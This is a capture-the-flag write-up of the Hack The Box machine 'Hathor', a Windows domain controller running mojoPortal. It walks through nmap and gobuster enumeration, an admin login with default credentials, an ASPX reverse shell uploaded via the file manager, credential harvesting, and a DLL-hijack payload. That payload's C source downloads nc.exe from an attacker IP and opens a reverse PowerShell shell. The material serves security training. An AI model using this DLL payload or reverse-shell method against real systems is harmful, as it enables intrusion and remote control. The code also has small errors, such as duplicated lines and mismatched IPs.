



# hathor-writeup-may-2

## Hathor



Hathor, The most difficult box to date for me. In a nutshell, Hathor is a Domain Controller running Mojo Portal (CMS).&#x20;

Hathor is owned through numerous footholds that exploits Input Sanitisation, DLL Hijacking, Scheduled Tasks and Hijacking existing Powershell scripts.

The initial foothold is gained through getting Admin access to the CMS via Default Credentials and exploiting a section of the 'File Manager' that does not perform input sanatisation, allowing arbirtrary files to be uploaded and called upon through the browsing to the directory.

The second foothold is gained through DLL hijacking that is available on a Share that needs to be mounted from 'Stored Credentials' discovered during enumeration through the initial foothold.


## Reconnaissance <a href="#6b46" id="6b46"></a>

First thing.

I will echo the box name into my /etc/hosts file for DNS resolution.

```
echo "hathor.htb  10.10.11.147" >> /etc/hosts
```

Using '>>' ensures the existing data is added to and not overwriten such as when using '>'.

I then make a directory of the box for all files using mkdir.

```
cd ~/HTB
mkdir Hathor
```

I run a quick initial nmap scan to see which ports are open and which services are running on those ports. I generally export this to a file for later viewing. I had to use -sS as my nmap scans were being blocked by AV.

```
nmap -p- -A hathor.htb > nmap-initial.txt
```

* **-p-:** Scan all ports (TCP/UDP)
* **-A:** Enable OS detection, versions

```
Nmap scan report for hathor.htb (10.129.163.69)
Host is up (0.29s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-robots.txt: 29 disallowed entries (15 shown)
| /CaptchaImage.ashx* /Admin/ /App_Browsers/ /App_Code/ 
| /App_Data/ /App_Themes/ /bin/ /Blog/ViewCategory.aspx$ 
| /Blog/ViewArchive.aspx$ /Data/SiteImages/emoticons /MyPage.aspx 
|_/MyPage.aspx$ /MyPage.aspx* /NeatHtml/ /NeatUpload/
|_http-title: Home - mojoPortal
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-04-19 05:43:44Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: windcorp.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2022-04-19T05:45:10+00:00; -19s from scanner time.
| ssl-cert: Subject: commonName=hathor.windcorp.htb
| Subject Alternative Name: othername:<unsupported>, DNS:hathor.windcorp.htb
| Not valid before: 2022-03-18T07:51:40
|_Not valid after:  2023-03-18T07:51:40
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: windcorp.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=hathor.windcorp.htb
| Subject Alternative Name: othername:<unsupported>, DNS:hathor.windcorp.htb
| Not valid before: 2022-03-18T07:51:40
|_Not valid after:  2023-03-18T07:51:40
|_ssl-date: 2022-04-19T05:45:10+00:00; -19s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: windcorp.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=hathor.windcorp.htb
| Subject Alternative Name: othername:<unsupported>, DNS:hathor.windcorp.htb
| Not valid before: 2022-03-18T07:51:40
|_Not valid after:  2023-03-18T07:51:40
|_ssl-date: 2022-04-19T05:45:10+00:00; -19s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: windcorp.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=hathor.windcorp.htb
| Subject Alternative Name: othername:<unsupported>, DNS:hathor.windcorp.htb
| Not valid before: 2022-03-18T07:51:40
|_Not valid after:  2023-03-18T07:51:40
|_ssl-date: 2022-04-19T05:45:10+00:00; -18s from scanner time.
Service Info: Host: HATHOR; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -18s, deviation: 0s, median: -19s
| smb2-time: 
|   date: 2022-04-19T05:44:33
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 123.60 seconds

```

The results show a typical Active Directory Domain Controller, distinguishable by services DNS, Kerberos, SMB, LDAP etc..

Ports of interest to start with are 80 / HTTP

* **Port 53:** dns
* **Port 80:** HTTP
* **Port 88:** kerberos
* **Port 135:** rpc
* **Port 139/445:** smb
* **Port 389/636/3268/3269:** ldap(s)
* **Port 5985:** WinRM

**SSL Certificate (LDAPS)**\
****Domain: windcorp.htb0 / hathor.windcorp.htb

* Added hathor.windcorp.htb & windcorp.htb to /etc/hosts

.png>)

## Enumeration <a href="#64a0" id="64a0"></a>

### **HTTP**

**GoBuster**

```
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://hathor.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/04/19 16:04:50 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 147] [--> http://hathor.htb/admin/]
/ADMIN                (Status: 301) [Size: 147] [--> http://hathor.htb/ADMIN/]
/Admin                (Status: 301) [Size: 147] [--> http://hathor.htb/Admin/]
/admin.php            (Status: 500) [Size: 1208]                              
/app_themes           (Status: 301) [Size: 152] [--> http://hathor.htb/app_themes/]
/aspnet_client        (Status: 301) [Size: 155] [--> http://hathor.htb/aspnet_client/]
/aux                  (Status: 200) [Size: 0]                                         
/blog                 (Status: 301) [Size: 146] [--> http://hathor.htb/blog/]         
/Blog                 (Status: 301) [Size: 146] [--> http://hathor.htb/Blog/]         
/clientscript         (Status: 301) [Size: 154] [--> http://hathor.htb/clientscript/] 
/com1                 (Status: 200) [Size: 0]                                         
/com2                 (Status: 200) [Size: 0]                                         
/com3                 (Status: 200) [Size: 0]                                         
/comments             (Status: 301) [Size: 150] [--> http://hathor.htb/comments/]     
/con                  (Status: 200) [Size: 0]                                         
/Content              (Status: 301) [Size: 149] [--> http://hathor.htb/Content/]      
/content              (Status: 301) [Size: 149] [--> http://hathor.htb/content/]      
/controls             (Status: 301) [Size: 150] [--> http://hathor.htb/controls/]     
/data                 (Status: 301) [Size: 146] [--> http://hathor.htb/data/]         
/dialog               (Status: 301) [Size: 148] [--> http://hathor.htb/dialog/]       
/forums               (Status: 301) [Size: 148] [--> http://hathor.htb/forums/]       
/filemanager          (Status: 200) [Size: 2531]                                      
/home                 (Status: 200) [Size: 11222]                                     
/Home                 (Status: 200) [Size: 11222]                                     
/iframe               (Status: 301) [Size: 148] [--> http://hathor.htb/iframe/]       
/imagegallery         (Status: 301) [Size: 154] [--> http://hathor.htb/imagegallery/] 
/index.php            (Status: 500) [Size: 1208]                                      
/info.php             (Status: 500) [Size: 1208]                                      
/list                 (Status: 301) [Size: 146] [--> http://hathor.htb/list/]         
/lpt1                 (Status: 200) [Size: 0]                                         
/lpt2                 (Status: 200) [Size: 0]                                         
/modules              (Status: 301) [Size: 149] [--> http://hathor.htb/modules/]      
/nul                  (Status: 200) [Size: 0]                                         
/phpinfo.php          (Status: 500) [Size: 1208]                                      
/poll                 (Status: 301) [Size: 146] [--> http://hathor.htb/poll/]         
/prn                  (Status: 200) [Size: 0]                                         
/robots.txt           (Status: 200) [Size: 809]                                       
/scripts              (Status: 301) [Size: 149] [--> http://hathor.htb/scripts/]      
/Scripts              (Status: 301) [Size: 149] [--> http://hathor.htb/Scripts/]      
/secure               (Status: 301) [Size: 148] [--> http://hathor.htb/secure/]       
/services             (Status: 301) [Size: 150] [--> http://hathor.htb/services/]     
/Services             (Status: 301) [Size: 150] [--> http://hathor.htb/Services/]     
/setup                (Status: 301) [Size: 147] [--> http://hathor.htb/setup/]        
/survey               (Status: 301) [Size: 148] [--> http://hathor.htb/survey/]       
/views                (Status: 301) [Size: 147] [--> http://hathor.htb/views/]        
/xmlrpc.php           (Status: 500) [Size: 1208]                                      
/xmlrpc_server.php    (Status: 500) [Size: 1208] 
```


http://hathor.windcorp.htb



After much enumeration, have come to /admin and registered an account



.png>)

Attempted to view other accounts that are registered, and attempted a password reset on Admin but no result here.

.png>)

I ended up reviewing password resets in the Mojo forums and found the Default Creds.

{% embed url="https://www.mojoportal.com/Forums/Thread.aspx?pageid=5&t=2902%7E-1" %}

.png>)

Success - Logged in as Admin.


.png>)


Looking into File Manager, We have ability to edit current files.

.png>)

I replace the content of the fragment1.htm with an ASPX Reverse Shell.



.png>)

It took me a couple goes on trying to find a location where the CMS would allow me to save a filetype as .aspx. In the end, This file was copied to /Logos and triggered by going to:&#x20;

.png>)

### Initial foothold

.png>)

Get-Users

.png>)

I perform my initial enumerations:

```
whoami
hostname
dir env:
whoami /priv
whoami /groups
klist
winver
qwinsta
net group /domain
net localgroup
```

* **whoami:** Shows my current user
* **hostname:** Hostname I am logged on to
* **dir env:** Advises me of environmental values
* **whoami /priv:** Local privileges for current user
* **whoami /groups:** Local Groups that current user is a member of
* **klist:** Provides information on any kerberos tickets cached
* **winver:** Windows Version running
* **qwinsta:** Shows any other users logged in with a running session
* **net localgroup:** Shows Local Groups
* **netgroup /domain:** Shows Groups within the Domain - This failed.


```
Get-Childitem -Path C:\*.ps1 -Recurse -Depth 2 -Force -Erroraction SilentlyContinue | Select Directory, Name >> gci-c.txt
Get-Content gci-c.ps1 | findstr /i Password.
```

Get-ChildItem (gci) allows me to search for all Files on C:\ with a name that ends with .ps1

* **Path:** When using path can use wildcards to search for file types, such as .txt, .ini, .log, .ps1
* **Recurse:** Recursively search through Folders
* **Depth:** Search 2 levels deep (result bloat)
* **Force:** Shows hidden files
* **Erroraction:** Use with SilentlyContinue to not display errors and to continue even when an error occurs.
* **Select:** To avoid verbose output, use select with Name & Directory to filter the results.

I found a PS1 in C:\Get-bADPasswords DIR.

Using GCI, there are .CSV files in the C:\Get-bADPasswords\Accessible DIR.

.png>)

Extracting the content in Bulk using Get-Content (GC) to a writeable folder.&#x20;

.png>)

.png>)

Got the hash of user BeatriceMill.

User: BeatriceMill Password: 'xxxx'


### LDAP

ldapsearch -x -h 10.129.44.3 -D 'windcorp\BeatriceMill' -w 'xxx' -b CN=Users,DC=windcorp,DC=htb"

.png>)

Contents of usernames.txt

.png>)

\#Remove sAMAccountName

wc tells me that sAMAccountName is -eq to 16 characters

.png>)

I use sed to just leave the usernames.

.png>)

### SMB

Accessing the share

net use Y: \hathor\share /user:windcorp\beatricemill xxxx

pushd Y:

.png>)

Browsing the Directory, The Directory, there are a couple of .exe files and a Scripts DIR.

.png>)

Scripts DIR.

.png>)

### Processes

Get-Process list shows a number of processes running. One of the processes that shows AutoIT3.exe

.png>)

[https://www.autoitscript.com/site/](https://www.autoitscript.com/site/) Advises that is designed for automating windows tasks.

Given that this .exe lives in the Share, followed by the contents of the scripts folder that contains .au3 file types - which are associated to AutoIT3.exe


### Foothold 2

The second Foothold comes from DLL Hijack of the AutoIT3 Scheduledtask.

[https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking)

1. Takeownership of Bginfo64.exe&#x20;
2. Curl netcat.exe to replace BgInfo64.exe
3. Run netcat.exe and open a reverse powershell shell.

```
#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
# include <windows.h>
BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
{
  switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
      system("takeown /f C:\\share\\Bginfo64.exe");
      system("icacls C:\\share\\Bginfo64.exe /grant Everyone:F /T");
      system("curl 10.10.16.5:8080/nc.exe -o c:\\share\\Bginfo64.exe");
      system("C:\\share\\Bginfo64.exe 10.10.164.65 1234 -e Powershell.exe");
      break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
      break;
    }
  return TRUE;
}
```

.png>)

Compile using:&#x20;

```
x86_64-w64-mingw32-gcc -shared -o 7-zip64.dll dll.c
```

Using SimpleHTTPServer to create a web server that allows me to transfer the file over to the box.

Copy file and overwrite 7-zip64.dll&#x20;

`curl.exe http://10.10.16.5:9080/7-zip64.dll -o 7-zip64.dll`

Wait for Scheduled Task (Runs approximately every 3 minutes according to HTTP Server)

.png>)

.png>)

.png>)

### Owned User

.png>)
